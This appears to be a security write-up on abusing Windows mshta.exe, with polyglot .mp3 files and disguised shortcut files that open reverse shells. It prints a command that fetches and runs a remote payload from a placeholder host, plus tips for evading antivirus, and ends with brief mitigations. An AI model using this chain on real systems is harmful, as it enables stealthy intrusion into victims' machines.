 # mshta-abuse
## Introduction

While diving into malware analysis, I came across a technique where attackers use **HTA files** to gain unauthorized access to a victim’s device. What makes this interesting is the abuse of a built-in Windows utility called `mshta.exe`.

This post explores how `mshta` can be leveraged to execute malicious code—**without needing to download a file**—and how simple it is to pull off a stealthy reverse shell using this method. Also a walk through a proof-of-concept (PoC) attack using a disguised `.mp3` file and a `.lnk` shortcut file.


## What is `mshta.exe`?

`mshta.exe` is a **legitimate Windows binary** located at:

```
C:\Windows\System32\mshta.exe
```

Its job is to execute **HTA (HTML Application)** files. These files look like regular HTML files but with a `.hta` extension. However, unlike normal web pages, HTA files can **run powerful scripts like VBScript or JavaScript with elevated privileges**—giving attackers an easy way to run commands on a victim’s machine.


## Why Is `mshta.exe` Abused?

- **It’s a signed Microsoft binary**, so it's trusted by the system (living off the land).
- It can **execute scripts from remote URLs**, making it perfect for fileless attacks.
- **Antivirus (AV) software may not flag it**, especially if the payload is well-hidden or obfuscated.
- It supports **polyglot files**—files that are valid in more than one format (e.g., a file that is both a `.mp3` and a `.hta`).


## What Are Polyglot Files?

A **polyglot file** is a file crafted in such a way that it can be interpreted correctly as **two or more different file types**. For example, you can create a `.mp3` file that is also a valid `.hta` file.

This means we can hide a malicious HTA script inside a file that appears harmless—like a music file or image.


## Running Malicious Code Without Downloading It


Let’s say we host a polyglot `.mp3` file containing a hidden HTA script on a server.

From **PowerShell**, you can execute the remote payload like this:

```powershell
& 'C:\Windows\System32\mshta.exe' http://[ip_address]:[port]/malicious.mp3
```

> This executes the malicious payload directly from the server, without saving it locally!
>
**Python Server:**

![python_server](https://github.com/user-attachments/assets/dc194265-90fe-4e0d-b9a1-17de5e427210)

**Command Execution:**

![ps_exec](https://github.com/user-attachments/assets/e58292cd-fa80-4db0-b867-e4d7482a34db)

**Reverse Shell Connection:**

![rev_shell](https://github.com/user-attachments/assets/ab0c5828-8e1f-4050-abb9-ae130605ce0d)

### Why It Works:

- `mshta.exe` parses the file and executes the script section inside it.
- The file is never saved on the disk, making it **harder to detect**.
- Since `.mp3` is a "safe" extension, most users won't suspect anything.


## What About Antivirus?

Most antivirus software detects `mshta.exe` when it:

- Connects to the internet,
- Downloads or executes code remotely.

But we can bypass it by:

- **Obfuscating the HTA code** (e.g., encoding or encrypting it),
- Using a **local LNK (shortcut) file** to run the payload,
- **Hiding the malicious polyglot file locally**, not remotely.


## Disguised LNK

### Here's how the attack chain works:

![lamma_poc](https://github.com/user-attachments/assets/e068b954-24ac-473f-9dda-46e40a52caca)

1. **Two files are planted on the victim’s machine**:
    - A disguised `.lnk` file (looks like a `.png` image),
    - A hidden `.mp3` file containing obfuscated malicious HTA code.
2. The `.lnk` file is crafted to run this command:
    
    ```powershell
    & 'C:\Windows\System32\mshta.exe' /path/to/malicious.mp3
    ```
![payload_prop](https://github.com/user-attachments/assets/13fb6b4d-d917-4b60-9cac-97fa947dad5e)

3. When the victim **clicks on the "image"**, the `.lnk` triggers the local polyglot `.mp3` file.
4. The payload is executed, and a **reverse shell** is opened to the attacker's listener.

> The victim just opened a picture—and now the attacker has control!
> 

## Results

https://github.com/user-attachments/assets/95e61e35-15e0-4e1c-9b20-418f3d1abc75



This technique is a great example of how **Living Off the Land Binaries (LOLBins)** like `mshta.exe` can be misused to execute code in stealthy ways. With the added advantage of polyglot files and simple obfuscation, even basic Windows features become dangerous tools.


## Mitigation Tips

- Block or monitor usage of `mshta.exe` using **Application Control** tools like AppLocker or WDAC.
- Do not trust shortcut files, even if they look like images or any other harmless files.


---
> This post reflects what I’ve learned so far. If I’ve missed anything or made a mistake, feel free to reach out—I’m always eager to improve and learn more.
